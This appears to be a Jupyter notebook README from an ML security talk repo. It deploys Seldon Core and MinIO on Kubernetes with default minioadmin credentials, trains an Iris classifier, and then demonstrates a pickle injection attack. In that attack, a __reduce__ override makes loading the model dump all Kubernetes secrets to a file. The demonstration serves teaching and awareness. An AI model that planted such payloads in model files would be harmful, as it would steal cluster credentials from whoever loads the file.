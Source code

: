 [![Maintenance](https://img.shields.io/badge/Maintained%3F-YES-green.svg)](https://github.com/EthicalML/awesome-production-machine-learning/graphs/commit-activity)
![GitHub](https://img.shields.io/badge/Release-PROD-yellow.svg)
![GitHub](https://img.shields.io/badge/Languages-MULTI-blue.svg)
![GitHub](https://img.shields.io/badge/License-MIT-lightgrey.svg)
[![GitHub](https://img.shields.io/twitter/follow/axsaucedo.svg?label=Follow)](https://twitter.com/AxSaucedo/)

# Flawed Machine Learning Security

This Repo contains a set of resources relevant to the talk "Secure Machine Learning at Scale with MLSecOps", and provides a set of examples to showcase practical common security flaws throughout the multiple phases of the machine learning lifecycle.

## Setup

Requirements on CLIs
* kubectl
* istioctl
* mc (minio client)
* Kubernetes > 1.18
* Python 3.7

### Setup Kubernetes Cluster

#### Install and setup Istio


```python
!istioctl install -y
```


```bash
%%bash
kubectl apply -n istio-system -f - << END
apiVersion: networking.istio.io/v1alpha3
kind: Gateway
metadata:
  name: seldon-gateway
spec:
  selector:
    istio: ingressgateway # use istio default controller
  servers:
  - port:
      number: 80
      name: http
      protocol: HTTP
    hosts:
    - "*"
END
```

#### Setup Seldon Core


```bash
%%bash
kubectl create ns seldon-system
helm upgrade --install \
    seldon-core seldon-core-operator \
    --repo https://storage.googleapis.com/seldon-charts  \
    --set usageMetrics.enabled=true --namespace seldon-system \
    --set istio.enabled="true" --set istio.gateway="seldon-gateway.istio-system.svc.cluster.local" \
    --version 1.13.1
```

#### Setup & configure MinIO


```bash
%%bash
kubectl create ns minio-system
helm repo add minio https://helm.min.io/
helm install minio minio/minio \
    --set accessKey=minioadmin \
    --set secretKey=minioadmin \
    --namespace minio-system
```

    "minio" already exists with the same configuration, skipping
    NAME: minio
    LAST DEPLOYED: Sun Apr 10 13:24:52 2022
    NAMESPACE: minio-system
    STATUS: deployed
    REVISION: 1
    TEST SUITE: None
    NOTES:
    Minio can be accessed via port 9000 on the following DNS name from within your cluster:
    minio.minio-system.svc.cluster.local
    
    To access Minio from localhost, run the below commands:
    
      1. export POD_NAME=$(kubectl get pods --namespace minio-system -l "release=minio" -o jsonpath="{.items[0].metadata.name}")
    
      2. kubectl port-forward $POD_NAME 9000 --namespace minio-system
    
    Read more about port forwarding here: http://kubernetes.io/docs/user-guide/kubectl/kubectl_port-forward/
    
    You can now access Minio server on http://localhost:9000. Follow the below steps to connect to Minio server with mc client:
    
      1. Download the Minio mc client - https://docs.minio.io/docs/minio-client-quickstart-guide
    
      2. Get the ACCESS_KEY=$(kubectl get secret minio -o jsonpath="{.data.accesskey}" | base64 --decode) and the SECRET_KEY=$(kubectl get secret minio -o jsonpath="{.data.secretkey}" | base64 --decode)
    
      3. mc alias set minio-local http://localhost:9000 "$ACCESS_KEY" "$SECRET_KEY" --api s3v4
    
      4. mc ls minio-local
    
    Alternately, you can use your browser or the Minio SDK to access the server - https://docs.minio.io/categories/17


    Error from server (AlreadyExists): namespaces "minio-system" already exists


Once minio is runnning you need to open another terminal and run:
```
kubectl port-forward -n minio-system svc/minio 9000:9000
```


```python
!mc config host add minio-seldon http://localhost:9000 minioadmin minioadmin
```

    [m[32mAdded `minio-seldon` successfully.[0m
    [0m


```bash
%%bash
kubectl apply -f - << END
apiVersion: v1
kind: Secret
metadata:
  name: seldon-init-container-secret
type: Opaque
stringData:
  RCLONE_CONFIG_S3_TYPE: s3
  RCLONE_CONFIG_S3_PROVIDER: minio
  RCLONE_CONFIG_S3_ACCESS_KEY_ID: minioadmin
  RCLONE_CONFIG_S3_SECRET_ACCESS_KEY: minioadmin
  RCLONE_CONFIG_S3_ENDPOINT: http://minio.minio-system.svc.cluster.local:9000
  RCLONE_CONFIG_S3_ENV_AUTH: "false"
END
```

    secret/seldon-init-container-secret created


## Model Training

#### Install requirements for model


```python
%%writefile requirements.txt
seldon_core
scikit-learn == 0.24.2
numpy >= 1.8.2
joblib == 0.16.0
```

    Writing requirements.txt



```python
!pip install -r requirements.txt
```

#### Import datasets to train Iris model


```python
from sklearn import datasets

iris = datasets.load_iris()
X, y = iris.data, iris.target
```

#### Import simple LogsticRegression model


```python
from sklearn.linear_model import LogisticRegression

model = LogisticRegression(solver="liblinear", multi_class='ovr')
```

#### Train model with dataset


```python
model.fit(X, y)
```




    LogisticRegression(multi_class='ovr', solver='liblinear')



#### Run prediction to test model


```python
model.predict(X[:1])
```




    array([0])



#### Dump model binary with pickle


```python
import joblib

joblib.dump(model, "model.joblib")
```




    ['model.joblib']




```python
!bat model.joblib
```

## Load Pickle and Inject Malicious Code


```python
import joblib

model_safe = joblib.load("model.joblib")
```


```python
model_safe.predict(X[:1])
```




    array([0])




```python
import types, os

def __reduce__(self):
    cmd = "kubectl get secrets -o yaml > kubernetes-secrets.txt"
    return os.system, (cmd,)
```


```python
model_safe.__class__.__reduce__ = types.MethodType(__reduce__, model_safe.__class__)
```


```python
joblib.dump(model_safe, "model_unsafe.joblib")
```




    ['model_unsafe.joblib']




```python
!bat model_unsafe.joblib
```

#### Now reload the insecure pickle


```python
!ls kubernetes-secrets.txt
```

    ls: cannot access 'kubernetes-secrets.txt': No such file or directory



```python
import joblib

model_unsafe = joblib.load("model_unsafe.joblib")
```


```python
!head -4 kubernetes-secrets.txt
```

    apiVersion: v1
    items:
    - apiVersion: v1
      data:



```python

```
